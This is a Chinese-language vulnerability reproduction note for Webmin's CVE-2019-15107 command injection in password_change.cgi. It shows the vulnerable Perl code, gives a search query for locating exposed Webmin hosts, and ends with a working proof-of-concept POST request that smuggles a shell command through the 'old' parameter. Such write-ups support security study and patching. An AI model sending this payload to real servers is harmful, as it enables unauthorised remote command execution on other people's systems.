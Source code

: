 # Webmin password_change.cgi 远程命令执行漏洞 CVE-2019-15107

## 漏洞描述

Webmin是一个用于管理类Unix系统的管理配置工具，具有Web页面。在其找回密码页。面中，存在一处无需权限的命令注入漏洞，通过这个漏洞攻击者即可以执行任意系统命令。

## 漏洞影响

```
Webmin <= 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](images/202208291019698.png)

漏洞的触发点为文件 password_change.cgi

![image-20220829102002569](images/202208291020663.png)

其中接受的POST传参的几个参数为 `user pam expired old new1 new2`， 值得注意的参数为 old, 对应的代码片段存在漏洞

![image-20220829102029855](images/202208291020941.png)

```
if ($wuser) {
	# Update Webmin user's password
	$enc = &acl::encrypt_password($in{'old'}, $wuser->{'pass'});
	$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
	$perr = &acl::check_password_restrictions($in{'user'}, $in{'new1'});
	$perr && &pass_error(&text('password_enewpass', $perr));
	$wuser->{'pass'} = &acl::encrypt_password($in{'new1'});
	$wuser->{'temppass'} = 0;
	&acl::modify_user($wuser->{'name'}, $wuser);
	&reload_miniserv();
	}
```

在 perl 中 `qx/id/`, 对应执行系统命令 id, 而可控的参数里 old 参数是可控的，导致命令执行 并通过 pass_error 回显至页面中， 验证POC

```
POST /password_change.cgi

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

![image-20220829102048174](images/202208291020246.png)